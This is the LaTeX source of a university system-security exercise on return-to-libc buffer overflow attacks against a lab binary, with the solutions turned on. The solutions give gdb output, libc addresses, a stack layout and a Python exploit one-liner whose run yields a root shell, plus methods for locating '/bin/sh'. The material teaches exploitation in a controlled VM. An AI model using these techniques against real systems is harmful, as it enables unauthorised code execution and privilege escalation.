% IMPORTANT: add or remove (comment out) the boolean '\solutiontrue' below to
% create the solution document or the exercise document respectively.
% First we create the switch to make either the exercises or the solutions
\newif\ifsolution\solutionfalse
% To create the solution uncomment '\solutiontrue'
\solutiontrue

\documentclass[a4paper,11pt]{article}
\title{System Security,
\ifsolution Solution \else \fi
Buffer Overflow 1}

\include{author}

\usepackage[T1]{fontenc}
\usepackage{ae, aecompl}
\usepackage{a4wide}
\usepackage{boxedminipage}
\usepackage{url}
\usepackage{graphicx}
\usepackage{enumerate}
\usepackage{hyperref}
\usepackage{textcomp}
% Some useful commands and environments
\usepackage{framed}
\usepackage{upquote}
\usepackage{drawstack}
\usepackage{xcolor}

\usepackage{listings}
\lstset{
    frame=single,
    breaklines=true,
    postbreak=\raisebox{0ex}[0ex][0ex]{\ensuremath{\color{red}\hookrightarrow\space}}
}

\newenvironment{solution}%
{\par{\noindent\small\textit{Solution:}}\vspace{-12pt}\begin{framed}}%
{\end{framed}\par}


\begin{document}
\maketitle


\section*{Introduction}

In this assignment you will build exploits for the binary program {\tt vulnapp}.
There are two buffer overflow attacks to perform on the same binary program. You
have already used {\tt vulnapp} in the previous assignment. You find the files
in the folder \texttt{bufov1}. To setup the folder, run \texttt{make} and
enter the syssec password when prompted.

The type of buffer overflow attacks that we propose to do are generally known as
return-to-libc attacks. In such an attack, the main idea is to overwrite the
return address with the address of some function in the libc library (any C
program dynamically links to this library upon execution), pass the correct
parameters to that function and make it execute. The advantage of this attack is
that it can be successfully executed on operating systems with non-executable
stack.

\subsection*{Protection mechanisms}

As you may expect, operating systems already provide a number of measures to
prevent such an attack from being easily successful. One such measure is library
address randomization, that is a part of \textit{Address Space Layout
Randomization} (ASLR). The method randomizes the addresses to which dynamically
linked libraries such as libc are loaded. This brings an additional protection
given that the attacker must predict the function address. In order to make this
exercise easier for you, we suggest to disable the virtual address
randomization. This will ensure a stable virtual address space across multiple
executions. Turning on/off the randomization in a \textit{root shell} is as
follows (off=0, on=1/2):

\begin{verbatim}
echo 0 > /proc/sys/kernel/randomize_va_space
echo 1 > /proc/sys/kernel/randomize_va_space
\end{verbatim}

Inside the VM we have already turned off this randomization.

The compiler can protect the binary by integrating stack canaries. We have
disabled the use of these canaries through the compiler flag
\texttt{-fno-stack-protector} to make this exercise easier. Therefore the binary
has no stack canaries.

However, the stack of the binary is marked non-executable, meaning we cannot
execute code from the stack.

\subsection*{Building \& executing exploits}

Your exploit user input will typically contain byte values that do not
correspond to the ASCII values for printing characters. We recommend using {\it
perl} or {\it python} to supply your exploits on the command line argument. Here
is an example on how call vulnapp with the ASCII characters ``AAA'' followed by
0xf05effbf as argument:\\ \textsf{ bash> ./vulnapp ''\textasciigrave perl -e
'printf ''A'' x 3 . ''\textbackslash xf0\textbackslash x5e\textbackslash
xff\textbackslash xbf''$\:$'\textasciigrave''} or \\ \textsf{ bash> ./vulnapp
''\textasciigrave python2.7 -c 'from struct import pack; print(''A''*3 +
pack(''I'', 0xf05effbf)$\:$'\textasciigrave ''}

This way, you can fill the buffer with arbitrary characters, except zero bytes,
and then add your actual exploit input that contain specific addresses in
hexadecimal format.

\section*{Attack 1: Execute your favorite shell}
\emph{We have collected hints for both exercises at the end of this
  document!}

Your task is to get {\sc vulnapp} to execute a favorite shell of yours (e.g.,
/bin/bash, /bin/sh, /bin/zsh).

To perform the attack you have to supply an exploit string that overwrites the
stored return pointer in the stack frame for {\tt cpybuf} with the address of
the system() function from the libc library and provide the necessary argument.
This function allows you to execute any program (e.g., system("/bin/sh")). To
provide arguments to the system function, you have to prepare the stack to look
like before a regular function call. Think about how the stack layout has to be.
\textit{Hint:} It is usually helpful to sketch it. As the system call expects a
pointer to a string as argument, you will have to find a string, which matches
the path of the file you want to execute. Luckily for you, the vulnapp
application allows you to place a string of your choice in the memory as
follows.

\begin{verbatim}
bash> ./vulnapp Hello
bash>  Type some text:
bash>  /bin/sh
\end{verbatim}

Note that your exploit string may also corrupt other parts of the
stack state. In order to make the program terminate safely you will
need to put on the stack the address of the function exit() to
properly terminate the execution. Here is a list of steps you may
consider following to perform the attack:

\begin{enumerate}
\item Recall the vulnerable buffer length from the previous exercise.
  \item Find the addresses of system() and exit().
  \item Find the address that points to your typed text containing the shell to
  execute.
  \item Understand how to position these addresses in your exploit.
  \item Build and test the exploit.
  \item Check if you escalated your privileges, e.g. using \texttt{id}.
\end{enumerate}

\textbf{Important:} While you can use gdb to prepare these attacks, you should
perform the actual attack against the normally running executable which you
started as normal user(syssec).

\newpage

\ifsolution
\begin{solution}
1. The size of vulnerable buffer is 16 bytes. It is important to notice that along with this buffer there is also a local variable of 4 bytes. Right before calling the \texttt{strcpy} function, the \texttt{esp} pointer is located at address \texttt{ebp - 20}.

2. The system() and exit() functions are loacated in memory at addresses \texttt{0xb7e30ea0} and respectively \texttt{0xb7e24a60}.  

\begin{lstlisting}
  (gdb) disassemble system
  Dump of assembler code for function system:
  0xb7e30ea0 <+0>:	sub    $0xc,%esp
  0xb7e30ea3 <+3>:	mov    0x10(%esp),%eax

  (gdb) disassemble exit
  Dump of assembler code for function exit:
  0xb7e24a60 <+0>:	call   0xb7f18d59 <__x86.get_pc_thunk.ax>
  0xb7e24a65 <+5>:	add    $0x18759b,%eax
\end{lstlisting}

3. The address of the buffer used to stored the typed text  is \texttt{0x80499a0}.

\begin{lstlisting}
  (gdb) disassemble main
  Dump of assembler code for function main:
  ...
  0x080485ac <+60>:	push   %eax
  0x080485ad <+61>:	push   $0x40
  0x080485af <+63>:	push   $0x80499a0
  0x080485b4 <+68>:	call   0x80483c0 <fgets@plt>
  ...
\end{lstlisting}

4. The exploit will place the addresses on the stack as follows:


\begin{tikzpicture}[scale=1.2]
  \stacktop{}
  \cell{0x80499a0} \cellcomL{input buffer: '/bin/bash'} \cellcom{ebp+16}
  \cell{0xb7e24a60} \cellcomL{exit()} \cellcom{ebp+12}
  \cell{0xb7e30ea0} \cellcomL{Saved RET: system()} \cellcom{ebp+8}
  \cell{"AAAA"} \cellcomL{Saved EBP: Base pointer} \cellcom{ebp+4}
  \cell{"AAAA"} \cellcomL{ret} \cellcom{ebp}
  \cell{"AAAA"} \cellcomL{buff[12:15]} \cellcom{ebp-4}
  \cell{"AAAA"} \cellcomL{buff[8:11]} \cellcom{ebp-8}
  \cell{"AAAA"} \cellcomL{buff[4:7]} \cellcom{ebp-12}
  \cell{"AAAA"} \cellcomL{buff[0:3]} \cellcom{ebp-16}
  \stackbottom{}
  \cell[draw=none]{Stack of cpybuf function}
\end{tikzpicture}

5. The exploit code looks like this:

\begin{lstlisting}[language=python]
  from struct import pack; print("A"*24 + pack("I", 0xb7e30ea0) + pack("I", 0xb7e24a60) + pack("I", 0x80499a0))
\end{lstlisting}
The exploit fills firstly the stack with 24 bytes with value \texttt{A}, inclusive the saved \texttt{ebp} address. Then it overwrites the 
return address with the address of the \texttt{system} function. This will make the program to call the \texttt{system} function when the 
\texttt{cpybuf} function completes its execution. Next it writes the address of \texttt{exit} function as the return address from \texttt{system} 
function. This operation is typically accomplished automatically by the \texttt{call} instruction. The address of input buffer is placed at the end in order to be interpreted as the argument of \texttt{system} function.

\newpage

6. Running the exploit with payload \texttt{/bin/bash -c id}:

\begin{lstlisting}[language=bash]
  % ./vulnapp "`python2.7 -c 'from struct import pack; print("A"*24 + pack("I", 0xb7e30ea0) + pack("I", 0xb7e24a60) + pack("I", 0x80499a0))'`"
  Type some text:
  /bin/bash -c id

  You typed: [/bin/bash -c id]
  You provided:[AAAAAAAAAAAAAAAAAAAAAAAA���`Jⷠ�]
  uid=0(root) gid=100(users) groups=100(users),7(lp),10(wheel),19(log),91(video), 92(audio),93(optical),95(storage),96(scanner),98(power),150(wireshark)
\end{lstlisting}

\end{solution}\fi

\section*{Attack 2: Execute the shell from environmental variables}

Not every program might allow you to place a string in memory through an extra
input as vulnapp. So, this attack is similar to the previous one with the
difference that you will need to find the path to the shell i.e., "/bin/sh" in
the environmental variables.  These variables are automatically loaded in the
program stack upon execution. Therefore you are not dependent on the additional
input.

For this attack, you do not need to supply any information when the program asks you
to type some text as it will not be needed. In difference to the previous attack,
you just need to find the path to the shell program already included in the program
space after loading the vulnapp program.

The environmental variables are provided to the program as an argument. You can
either use the existing \texttt{SHELL} variable, you can modify with
\texttt{export SHELL=/bin/sh}, or create a new variable as \texttt{export
NEWVAR=/bin/sh}. To find the correct address of the variable, you have multiple
options\dots
 
\ifsolution
\begin{solution}
  The address of environment variable \texttt{SHELL} can be found with \texttt{gdb} as follows:
  \begin{lstlisting}[language=c]
    (gdb) set $env = *((char **)environ)
    (gdb) set $shell = strdup("SHELL")
    (gdb) while (0 != memcmp($env++, $shell, 5))
    >end
    (gdb) x/s $env-1
    0xbffff784:	"SHELL=/bin/bash"
  \end{lstlisting}
\end{solution}\fi


\section*{Further options}
Name another option where the argument for the call to system could be stored.
\newpage
\ifsolution
\begin{solution}
Another option is to search the memory for the string \texttt{/bin/sh}.  In fact the 
standard C library contains this string. This operation can be performed easily with \texttt{gdb} as follows:
\begin{lstlisting}
(gdb) find &system, +99999999, "/bin/sh"
0xb7f54a79
warning: Unable to access 16000 bytes of target memory at 0xb7fae801, halting search.
1 pattern found.
\end{lstlisting}
\end{solution}\fi

\noindent
Name another option to terminate the program without a segmentation fault and
without jumping directly to exit().  
\ifsolution
\begin{solution}
Another option to terminate the program without segmentation fault is to use the return address of \texttt{main()}
function instead of jumping to \texttt{exit()}. This address is stored in the stack of \texttt{main()} function 
at location \texttt{(ebp + 4)}. 
\begin{lstlisting}
Breakpoint 1, 0x080485b9 in main ()
(gdb) info register ebp
ebp            0xbffff318	0xbffff318
(gdb) x 0xbffff31C
0xbffff31c:	0xb7e0e497
\end{lstlisting} 
\end{solution}\fi


\section*{Expected Deliverables and Some Advice/Help}

First, we point out that this exercise is individual and we expect individual
submissions. Your submission should contain the important gdb commands used and
their output for each step towards successfully performing the attack. It should
also include a brief explanation after some major steps to summarize your
findings.

\subsection*{Some Advice}
\begin{itemize}
\item In GDB, you can disassemble the current function using {\tt
      disassemble} or any function using {\tt
      disassemble functionname}
\item All the information you need to devise your exploit can be
  determined by debugging {\sc vulnapp} in gdb.
\item
Be careful about byte ordering.
\item
You might want to use {\sc gdb} to step the program through the last few
instructions of {\tt cpybuf} to make sure it is doing the right thing.
\item
You will need to pad the beginning of your exploit string with the proper number of
bytes to overwrite the return pointer. The values of these bytes can
be arbitrary (0x00 is not recommended though --- why not?).
\item As a consequence of the last hint, you may run into problems if
  the address of {\tt system} or {\tt exit} contains zeros --- why? In
  such a case, either consider calling a different function from the
  libc (if the address of system contains zeros), or find a different
  address to return to --- be creative, there is at least one easy
  solution if the address of exit contains zero(s).
\item Memory addresses, when started in gdb, can be different from addresses in
normal execution.  To avoid this problem you can attach to the already running
program.

\item If you try to find the address of the environment variable the other
provided program you might have to do a small adjustments. Why?


\end{itemize}

\begin{thebibliography}{---}
\bibitem[1]{x86 Assembly Guide}x86 Assembly Guide, University of Virginia Computer Science, \url{http://www.cs.virginia.edu/~evans/cs216/guides/x86.html}
\bibitem[2]{bufovf} Buffer-Overflow Vulnerabilities and Attacks, Syracuse University, \url{http://www.cis.syr.edu/~wedu/Teaching/IntrCompSec/LectureNotes_New/Buffer_Overflow.pdf}
\bibitem[3]{smashing} Smashing The Stack, \url{https://www.win.tue.nl/~aeb/linux/hh/hh-10.html} 
\bibitem[4]{bypass} Bypassing non-executable-stack during exploitation using return-to-libc, c0ntex, \url{https://www.exploit-db.com/papers/13204/}
\end{thebibliography}

\end{document}

